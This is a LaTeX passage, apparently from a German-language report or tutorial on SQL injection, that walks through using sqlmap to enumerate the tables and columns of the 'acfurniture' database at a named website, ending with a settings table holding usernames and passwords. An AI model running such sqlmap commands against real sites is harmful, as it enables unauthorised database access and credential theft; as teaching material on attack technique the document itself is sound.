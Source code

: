 \begin{table}[]
	\centering
	\begin{tabular}{|l|}
		\hline
		{[}Date{]} {[}INFO{]} retrived: settings \\ \hline
		Database: acfurniture                    \\ \hline
		{[}4 tables{]}                           \\ \hline
		category                                 \\ \hline
		product                                  \\ \hline
		product\_hacked                          \\ \hline
		settings                                 \\ \hline
	\end{tabular}
	\caption{Ergebnis: Tabellenname}
\end{table}

\newpage

Bisher wurde festgestellt, dass die Website \texttt{acfurniture.com} hat zwei Datenbanken, acfurniture und information\_schema. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --columns
\end{LaTeXCode}

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

